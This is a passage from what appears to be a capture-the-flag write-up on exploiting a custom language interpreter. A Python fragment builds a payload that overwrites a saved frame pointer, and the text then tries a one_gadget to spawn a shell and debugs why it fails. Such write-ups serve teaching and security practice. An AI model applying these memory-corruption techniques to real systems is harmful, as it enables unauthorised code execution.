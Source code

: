 ```python
# saved rbp of lang_interpreter() -> fake saved rbp
# 0x007fffffffdfc0                -> 0x007fffffffdf10
payload += b'>'*0x80
payload += b'-'*0xb0
```

So now let's check if we can execute our one_gadget or not:

![check-ret-one-gadget.png](images/check-ret-one-gadget.png)

Yay let's get shell now!

![one-gadget-no-shell.png](images/one-gadget-no-shell.png)

Hm no shell!?? Let's debug to see what was happening:

![check-guess-execve.png](images/check-guess-execve.png)
